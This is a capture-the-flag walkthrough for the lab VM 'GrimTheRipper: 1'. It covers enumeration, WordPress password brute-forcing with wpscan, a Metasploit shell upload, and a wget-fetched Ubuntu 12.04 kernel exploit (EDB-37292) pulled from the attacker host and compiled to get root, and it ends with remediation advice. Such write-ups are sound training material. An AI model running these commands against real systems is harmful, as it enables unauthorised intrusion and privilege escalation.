


# GrimTheRipper: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.0.8 |
| **Attacker IP** | 192.168.0.10 |
| **Difficulty** | Easy/Medium |
| **OS** | Linux (Ubuntu 12.04) |
| **Goal** | root shell |
| **Source** | [HackingArticles](https://www.hackingarticles.in/grimtheripper-1-vulnhub-walkthrough/) |

## Attack Summary

GrimTheRipper: 1 is a Linux VM that requires enumerating a hidden WordPress installation through chained clues encoded in HTML source (Base64 to binary path). WordPress admin credentials are cracked with `wpscan` and `rockyou.txt`. Metasploit's `wp_admin_shell_upload` module delivers a Meterpreter shell. Privilege escalation targets **Ubuntu 12.04** using a public kernel local privilege escalation exploit (EDB-37292).

## Methodology

1. Host discovery and nmap scan
2. Web enumeration, hidden path via Base64-decoded HTML comment
3. WordPress discovery and `wpscan` credential brute-force
4. Metasploit `wp_admin_shell_upload` for initial access
5. Kernel exploit (EDB-37292) for root

---

## Step 1: Host Discovery

```bash
netdiscover -r 192.168.0.0/24
```

Target: `192.168.0.8`.

## Step 2: Port Scanning

```bash
nmap -A 192.168.0.8
```


Open ports: **22** (SSH) and **80** (HTTP).

## Step 3: Web Enumeration

Browse to `http://192.168.0.8`. The default page shows an image of Kevin Hart — no obvious content.

Run `dirb`:

```bash
dirb http://192.168.0.8/
```



Discovered `index2`. Navigate to `http://192.168.0.8/index2` — a taunt page with a meme. View source.

A comment in the HTML contains a **Base64-encoded string**. Decode it:

```bash
echo '<base64_string_from_source>' | base64 -d
# Output: another Base64 string
echo '<second_base64_string>' | base64 -d
# Output: /1010101
```

The double-encoded string resolves to the path `/1010101`.

## Step 4: WordPress Discovery

Browse to `http://192.168.0.8/1010101/` — reveals a WordPress installation at `/1010101/wordpress/`. The author `admin` is visible on the site.


## Step 5: WordPress Credential Brute-Force

```bash
wpscan --url http://192.168.0.8/1010101/wordpress/ \
       -U admin \
       -P /usr/share/wordlists/rockyou.txt \
       --wp-content-dir /1010101/wordpress
```

Recovered credentials: **admin / Password@123**

## Step 6: Initial Access — wp_admin_shell_upload

Use Metasploit to upload a PHP shell via the WordPress admin panel:

```bash
msfconsole -q
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 192.168.0.8
set USERNAME admin
set PASSWORD Password@123
set TARGETURI /1010101/wordpress/
exploit
```



A Meterpreter session opens. Drop into a system shell:

```bash
meterpreter> shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Step 7: Privilege Escalation — Ubuntu 12.04 Kernel Exploit (EDB-37292)

Check the OS version:

```bash
lsb_release -a
# Ubuntu 12.04
```

On the attacker machine:

```bash
searchsploit Ubuntu 12.04
searchsploit -m 37292
python -m SimpleHTTPServer 8000
```

On the target:

```bash
cd /tmp
wget http://192.168.0.10:8000/37292.c
gcc 37292.c -o shell
chmod 777 shell
./shell
id
```

Output: `uid=0(root) gid=0(root) groups=0(root)`

## Step 8: Root Flag

```bash
cd /root
ls
cat proof.txt
```


---

## Lessons Learned

- **Hidden paths encoded in Base64** within HTML comments require methodical source inspection.
- **Weak WordPress passwords** combined with unauthenticated user enumeration allow credential brute-force.
- **wp_admin_shell_upload** is a reliable Metasploit module for WordPress admin access when credentials are known.
- **Ubuntu 12.04 is end-of-life** and carries multiple unpatched kernel vulnerabilities. Running outdated OS versions is a critical risk.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| WordPress weak admin password | Enforce strong passwords, use login attempt limiting plugins |
| Authenticated arbitrary file upload | Restrict plugin/theme editor in `wp-config.php` (`DISALLOW_FILE_EDIT`) |
| Outdated Ubuntu 12.04 kernel | Upgrade OS to a supported, patched version |
| Sensitive paths in HTML comments | Remove all developer comments and hidden paths before production |
